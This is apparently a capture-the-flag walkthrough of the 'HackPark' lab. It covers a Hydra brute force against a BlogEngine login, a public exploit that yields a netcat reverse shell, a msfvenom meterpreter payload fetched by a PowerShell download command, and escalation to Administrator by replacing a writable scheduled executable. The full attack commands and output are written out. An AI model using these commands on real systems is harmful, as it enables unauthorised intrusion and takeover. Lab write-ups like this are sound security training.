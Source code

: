 ﻿## HackPark
Brute forcing a websites login with Hydra, identify and use a public exploit then escalate the privileges on a Windows machine!

### Recon
- There is a HTTP webpage on port 80 and is running a blog.
- Have couple pages and a login page http://10.10.81.179/Account/login.aspx?ReturnURL=/admin/
- When visited the home page source, can see the comment saying the website is using BlogEngine 3.3.6.0
- Performed a nmap scan on the server to find if there are any open ports and other services.
- 

    PORT     STATE SERVICE            VERSION
    80/tcp   open  http               Microsoft IIS httpd 8.5
    | http-methods: 
    |_  Potentially risky methods: TRACE
    | http-robots.txt: 6 disallowed entries 
    | /Account/*.* /search /search.aspx /error404.aspx 
    |_/archive /archive.aspx
    |_http-server-header: Microsoft-IIS/8.5
    |_http-title: hackpark | hackpark amusements
    3389/tcp open  ssl/ms-wbt-server?
    |_ssl-date: 2020-07-04T17:15:46+00:00; -5s from scanner time.
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    |_clock-skew: -5s

- From above, we can see the server is running IIS HTTP 8.5 on port 80 and have 6 pages that are blocked for crawlers. 
- 3389 is open - potentially for RDP. 

### Cracking the login credentials
The default credentials for Blog Engine are admin:admin (Google it), but it didn't worked, so lets bruteforce the admin id with hydra.

First we need to know the post request, using Burp we can intercept the request and gather the required information.

    POST /Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
    Host: 10.10.226.92
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.226.92/Account/login.aspx?ReturnURL=/admin/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 560
    DNT: 1
    Connection: close
    Upgrade-Insecure-Requests: 1
    
    __VIEWSTATE=yrGSghNTTe59EhrZcotASBiG%2Fu27NFaNuaqaeJeceE2phHcTUqsXZ3Hl0a3SRfJ0VxuhZAjPF9VCrM6Q8x%2Fj6%2FQSuqhpgUXtrre1D%2BLhluiHKRZKCMF%2Btml5SyIgJed9mYrfaKSB5ecanrjmrT%2BnZHZUlGBG7UQ%2B1aIm74Iwy7D17DW9&__EVENTVALIDATION=jQVBkrYlbLeIG3SEUABAYZue3flPuZINcj8gu8A7CNvKIDb5QlIARVaqkq%2BUWa8%2FS5XYm0r28kj%2B3Im0tRMi1Zl4cd1hWRYiAPt3Hx5keSDUgU%2B4qqJ3DdJpI9gvJniOuEDK9y5%2FfqAiU%2FKfZFGbTENvw835mmLdTut1KKEJTpoFeMIx&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=admin&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in 

Using the above information from Burp, we can now frame the request in hydra. 

    $ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.226.92 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=yrGSghNTTe59EhrZcotASBiG%2Fu27NFaNuaqaeJeceE2phHcTUqsXZ3Hl0a3SRfJ0VxuhZAjPF9VCrM6Q8x%2Fj6%2FQSuqhpgUXtrre1D%2BLhluiHKRZKCMF%2Btml5SyIgJed9mYrfaKSB5ecanrjmrT%2BnZHZUlGBG7UQ%2B1aIm74Iwy7D17DW9&__EVENTVALIDATION=jQVBkrYlbLeIG3SEUABAYZue3flPuZINcj8gu8A7CNvKIDb5QlIARVaqkq%2BUWa8%2FS5XYm0r28kj%2B3Im0tRMi1Zl4cd1hWRYiAPt3Hx5keSDUgU%2B4qqJ3DdJpI9gvJniOuEDK9y5%2FfqAiU%2FKfZFGbTENvw835mmLdTut1KKEJTpoFeMIx&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-04 20:43:57
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking http-post-form://10.10.226.92:80/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=yrGSghNTTe59EhrZcotASBiG%2Fu27NFaNuaqaeJeceE2phHcTUqsXZ3Hl0a3SRfJ0VxuhZAjPF9VCrM6Q8x%2Fj6%2FQSuqhpgUXtrre1D%2BLhluiHKRZKCMF%2Btml5SyIgJed9mYrfaKSB5ecanrjmrT%2BnZHZUlGBG7UQ%2B1aIm74Iwy7D17DW9&__EVENTVALIDATION=jQVBkrYlbLeIG3SEUABAYZue3flPuZINcj8gu8A7CNvKIDb5QlIARVaqkq%2BUWa8%2FS5XYm0r28kj%2B3Im0tRMi1Zl4cd1hWRYiAPt3Hx5keSDUgU%2B4qqJ3DdJpI9gvJniOuEDK9y5%2FfqAiU%2FKfZFGbTENvw835mmLdTut1KKEJTpoFeMIx&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
    [STATUS] 949.00 tries/min, 949 tries in 00:01h, 14343450 to do in 251:55h, 16 active
    [80][http-post-form] host: 10.10.226.92   login: admin   password: 1qaz2wsx
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-04 20:45:33

The brute force attack found the password for admin account as: 1qaz2wsx

### Getting a reverse shell
Using the [exploit](https://www.exploit-db.com/exploits/46353) , update the local host ip in it and upload the file with the name as PostView.ascx using the post editor. 
Open a netcat session to receive the reverse shell connection `nc -lnvp 4445`
Run the exploit with directory traversal `10.10.73.64/?theme=../../App_Data/files`
The reverse shell should be established on the netcat session.  

    $ nc -lnvp 4445
    listening on [any] 4445 ...
    connect to [10.2.18.4] from (UNKNOWN) [10.10.73.64] 54341
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    whoami
    c:\windows\system32\inetsrv>whoami
    iis apppool\blog

The web server is running with user `iis apppool\blog`. 

### Privilege Escalation 

Lets create a meterpreter session for more stable executions, to do this, we need to create a payload using msfvenom:
`$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.2.18.4 LPORT=4444 -f exe -o shell.exe`

Open a reverse shell handler in Metasploit using the `exploit/multi/handler` with payload `windows/meterpreter/reverse_tcp`

Start a simple web server using `python3 -m http.server` in same directory. 
In the reverse shell that was already opened earlier, with the help of powershell lets download the payload and start the process.

    powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.18.4:8000/shell.exe','shell.exe')"
    c:\Windows\Temp>powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.18.4:8000/shell.exe','shell.exe')"
    dir
    c:\Windows\Temp>dir
     Volume in drive C has no label.
     Volume Serial Number is 0E97-C552
     Directory of c:\Windows\Temp
    07/05/2020  08:34 AM    <DIR>          .
    07/05/2020  08:34 AM    <DIR>          ..
    08/06/2019  02:13 PM             8,795 Amazon_SSM_Agent_20190806141239.log
    08/06/2019  02:13 PM           181,468 Amazon_SSM_Agent_20190806141239_000_AmazonSSMAgentMSI.log
    08/06/2019  02:13 PM             1,206 cleanup.txt
    08/06/2019  02:13 PM               421 cmdout
    08/06/2019  02:11 PM                 0 DMI2EBC.tmp
    08/03/2019  10:43 AM                 0 DMI4D21.tmp
    08/06/2019  02:12 PM             8,743 EC2ConfigService_20190806141221.log
    08/06/2019  02:12 PM           292,438 EC2ConfigService_20190806141221_000_WiXEC2ConfigSetup_64.log
    07/05/2020  08:34 AM    <DIR>          Microsoft
    07/05/2020  08:34 AM            73,802 shell.exe
    08/06/2019  02:13 PM                21 stage1-complete.txt
    08/06/2019  02:13 PM            28,495 stage1.txt
    05/12/2019  09:03 PM           113,328 svcexec.exe
    08/06/2019  02:13 PM                67 tmp.dat
                  13 File(s)        708,784 bytes
                   3 Dir(s)  39,141,916,672 bytes free
    
    .\shell.exe
    c:\Windows\Temp>.\shell.exe  

This should open a Meterpreter session: 

    meterpreter > sysinfo
    Computer        : HACKPARK
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
    meterpreter > 


Let see what services are running on the host and if there are any that we can use for exploit. `meterpreter > ps` 

Of all the listed serivices, we can windows scheduler is running.
 

     1376  672   WService.exe 
     1556  1376  WScheduler.exe 

Navigate to `c:\Program Files (x86)\SystemScheduler\Events` to examine the scheduler logs and the file `20198415519.INI_LOG.txt` shows there is a service `Message.exe` which is running every 30 seconds and file is writable to everyone. 

    100777/rwxrwxrwx  536992   fil   2019-08-04 07:36:42 -0400  Message.exe

 Using the above, we can now replace this file with a malicious code which can spawn a shell with system id. We already have a shell code that was generated using msfvenom earlier, so lets upload that to the victim and rename to Message.exe

    meterpreter > upload shell.exe 
    [*] uploading  : shell.exe -> shell.exe
    [*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): shell.exe -> shell.exe
    [*] uploaded   : shell.exe -> shell.exe
    meterpreter > dir

Background the current Meterpreter session and run the multi/handler again to wait for new session to be established.

    meterpreter > background 
    [*] Backgrounding session 2...
    msf5 exploit(multi/handler) > run
    
    [*] Started reverse TCP handler on 10.2.18.4:4444 
    [*] Sending stage (176195 bytes) to 10.10.29.198
    [*] Meterpreter session 3 opened (10.2.18.4:4444 -> 10.10.29.198:64956) at 2020-07-05 12:56:07 -0400 
    meterpreter > shell
    Process 2484 created.
    Channel 1 created.
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    C:\PROGRA~2\SYSTEM~1>whoami
    whoami
    
    C:\PROGRA~2\SYSTEM~1>echo %username%
    echo %username%
    Administrator

We now have the Meterpreter session with Administrator access and grab the flags from `C:\Users\jeff\Desktop\user.txt` and `C:\Users\Administrator\Desktop\root.txt` which are 759bd8af507517bcfaede78a21a73e39 and 7e13d97f05f7ceb9881a3eb3d78d3e72 respectively. 

 
### Using WinPEAS

 [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) is a utility where we can find more information about the Windows host and for any vulnerabilities. Download the file into the victim machine just like shell.exe above. 

From the Meterpreter, open the shell and execute it.

    meterpreter > shell
    Process 1008 created.
    Channel 1 created.
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    c:\Windows\Temp>.\winPEAS.bat

The system Original Install Date:     8/3/2019, 10:43:23 AM.



